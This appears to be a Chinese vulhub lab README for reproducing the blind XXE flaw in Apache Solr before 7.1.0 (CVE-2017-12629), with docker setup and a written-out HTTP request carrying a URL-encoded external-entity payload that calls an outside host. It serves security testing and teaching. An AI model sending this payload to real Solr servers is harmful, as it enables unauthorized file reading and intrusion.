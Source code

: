 # Apache solr XML 实体注入漏洞（CVE-2017-12629）

漏洞原理与分析可以参考：

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 环境搭建

运行漏洞环境：

```
docker compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A%3C!ENTITY%20%25%20remote%20SYSTEM%20%22https%3A%2F%2Fbaidu.com%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可接受到Java发来的请求：

![](1.png)

利用Error Based XXE读取文件：

![](2.png)
